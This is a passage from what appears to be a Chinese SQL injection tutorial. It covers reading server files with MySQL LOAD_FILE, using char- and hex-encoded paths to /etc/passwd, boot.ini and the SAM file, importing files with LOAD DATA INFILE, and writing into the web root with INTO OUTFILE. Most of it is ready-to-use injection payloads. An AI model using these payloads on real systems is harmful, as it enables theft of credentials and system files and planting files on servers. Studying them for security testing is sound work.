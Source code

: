 > replace(load\_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32))

**示例：**

```mysql
Select load_file(‘/flag’);
SELECT CONVERT(LOAD_FILE("/etc/passwd") USING utf8);
```

```mysql
Select 1,2,3,4,5,6,7,hex(replace(load_file(char(99,58,92,119,105,110,100,111,119,115,92,
114,101,112,97,105,114,92,115,97,109))))
利用hex()将文件内容导出来，尤其是smb文件时可以使用。
-1 union select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105))
Explain：“char(99,58,47,98,111,111,116,46,105,110,105)”就是“c:/boot.ini”的ASCII 代码
-1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69)
Explain：“c:/boot.ini”的16 进制是“0x633a2f626f6f742e696e69”
-1 union select 1,1,1,load_file(c:\\boot.ini)
Explain:路径里的/用\\代替
```

### 文件导入到数据库(LOAD DATA INFILE)

LOAD DATA INFILE 语句用于高速地从一个文本文件中读取行，并装入一个表中。文件名称必须为一个文字字符串。

![image-20210131134914597](https://cdn.jsdelivr.net/gh/cc-sql/imagbed/img/20210131134917.png)

在注入过程中，我们往往需要一些特殊的文件，比如配置文件，密码文件等。当你具有数据库的权限时，可以将系统文件利用load data infile 导入到数据库中。

**示例：**

```mysql
load data infile '/tmp/t0.txt' ignore into table t0 character set gbk fields terminated by '\t' lines terminated by '\n'
```

将/tmp/t0.txt 导入到t0 表中，character set gbk 是字符集设置为gbk，fields terminated by 是每一项数据之间的分隔符，lines terminated by 是行的结尾符。

当错误代码是2 的时候的时候，文件不存在，错误代码为13 的时候是没有权限，可以考虑/tmp 等文件夹。  
TIPS：我们从mysql5.7 的文档看到添加了load xml 函数，是否依旧能够用来做注入还需要验证。

### 导入到文件(OUTFILE)

SELECT.....INTO OUTFILE 'file\_name'

可以把被选择的行写入一个文件中。该文件被创建到服务器主机上，因此您必须拥有FILE权限，才能使用此语法。file\_name 不能是一个已经存在的文件。

> mysql中的配置文件secure\_file\_priv变量如果为NULL，则不能导入
>
> \[mysqld\]  
> secure\_file\_priv="/"

我们一般有两种利用形式：  
**第一种直接将select 内容导入到文件中：**

```mysql
Select version() into outfile “c:\\phpnow\\htdocs\\test.php”
```
